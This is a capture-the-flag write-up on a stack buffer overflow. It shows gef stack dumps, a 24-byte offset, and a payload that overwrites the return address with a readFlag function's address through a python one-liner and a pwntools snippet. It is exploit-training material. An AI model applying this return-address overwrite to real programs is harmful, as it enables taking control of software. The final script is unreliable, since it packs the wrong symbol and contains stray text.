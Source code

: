 ```code
$rip   : 0x000000000040074a  →  <vuln+40> mov eax, 0x0
```

if we look at the stack before input, the rip points to the return address of the vuln function. To run the readFlag function we must replace `0x000000000040074a` by readFlag address.

so try to use the `cyclic` or `pattern create` in gef to find the offset (we know its $24$ just to make sure)  

```code
pattern create 24
aaaabaaacaaadaaaeaaafaaa
```

let's supply to our input

```code
stack
0x00007fffffffdac0│+0x0000: "aaaabaaacaaadaaaeaaafaaa"   ← $rax, $rsp, $r8
0x00007fffffffdac8│+0x0008: "caaadaaaeaaafaaa"
0x00007fffffffdad0│+0x0010: "eaaafaaa"   ← $rbp
0x00007fffffffdad8│+0x0018: 0x0000000000400700  →  <readFlag+41> sar DWORD PTR [rdx+0x20], 1
0x00007fffffffdae0│+0x0020: 0x0000000000000000
0x00007fffffffdae8│+0x0028: 0x00007ffff7deb0b3  →  <__libc_start_main+243> mov edi, eax
0x00007fffffffdaf0│+0x0030: 0x00007ffff7ffc620  →  0x0005044800000000
0x00007fffffffdaf8│+0x0038: 0x00007fffffffdbd8  →  0x00007fffffffde18  →  "/mnt/d/Coding/CTFs/CTFHaha/bof1/bof1"
```
before input `$rip : 0x40074a` now `$rip : 0x400700` we have successfully change from `4a` to `00` (because if we input $24$ character the $25$ character will be nullbytes which is \x00)  

So arrange the payload with padding $24$ character and the readFlag address (remember we must change it to little endian first)

to change to little endian form you can use `pwntool`

```python
>>> import pwn
>>> pwn.p64(0x00000000004006d7)
b'\xd7\x06@\x00\x00\x00\x00\x00'
```

our payload is nonprintable character so how can we arrange it?  
you can use either 
```bash
python -c "print('A'*24 + '\xd7\x06@\x00\x00\x00\x00\x00')" | ./example1
```
or
```python
offeset = 24
readFlag = 0x00000000004006d7
payload = b'A' * offeset
payload += p64(vuln)

use

p.sendline(payload)
p.interactive()
```
to send the payload and enter interactive mode and youll get the flag.
